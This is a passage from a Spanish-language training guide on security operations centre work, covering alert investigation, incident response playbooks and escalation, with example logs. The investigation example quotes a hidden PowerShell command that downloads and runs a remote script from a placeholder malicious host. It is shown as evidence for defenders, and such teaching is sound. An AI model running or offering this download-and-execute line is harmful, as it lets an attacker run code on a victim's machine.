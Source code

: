 📌 Ejemplo:  
El analista investiga la alerta anterior y descubre que la IP está asociada a un servicio VPN público frecuentemente usado por atacantes. Al revisar el endpoint, detecta un proceso sospechoso ejecutándose con privilegios elevados y un archivo descargado recientemente que coincide con un hash reportado en listas negras de threat intelligence. Se confirma que el incidente es real y se inicia el proceso de respuesta.

```text
Proceso sospechoso en el endpoint:
C:\Windows\System32\cmd.exe /c powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious-site.com/payload.ps1')"
```

```text
Threat Intelligence:
Hash detectado: 8f14e45fceea167a5a36dedd4bea2543
Estado: Listado en VirusTotal y MISP como malware conocido
```

---

### 🔹 3.3 Respuesta
- Confirmada la amenaza, el SOC actúa. El objetivo es **contener y mitigar el incidente**.  
- Acciones típicas:  
  - Bloquear direcciones IP en firewalls.  
  - Aislar un endpoint de la red.  
  - Revocar credenciales comprometidas.  
  - Aplicar parches de seguridad.  
- La respuesta debe ser **rápida y estandarizada**, por eso los SOC trabajan con **playbooks** que indican paso a paso cómo actuar frente a cada tipo de incidente.  

📌 Ejemplo:  
El analista sigue el playbook de respuesta para compromisos de credenciales: aísla el equipo afectado de la red, revoca las credenciales del usuario, bloquea la IP sospechosa en el firewall y notifica al usuario y al equipo de TI. Se inicia un escaneo de malware en el endpoint y se recopilan evidencias para el análisis forense.

```text
Firewall log:
2025-09-13 02:20:01 BLOCK src=185.23.45.67 dst=192.168.1.10 port=3389 rule="Bloqueo IP sospechosa"
```

```text
EDR acción:
[ACCION] Endpoint SERVER01 aislado de la red
[ACCION] Credenciales de admin_user revocadas
```

---

### 🔹 3.4 Escalamiento
- No todos los incidentes los resuelve un analista de nivel básico.  
- Si el incidente supera su alcance, se **escala** a un nivel superior (N2, N3 o CSIRT).  
- Escalar puede significar:  
  - Dar visibilidad al equipo de forensia.  
  - Informar al CISO y alta dirección si es crítico.  
  - Coordinar con áreas legales o de cumplimiento si hubo fuga de datos.  
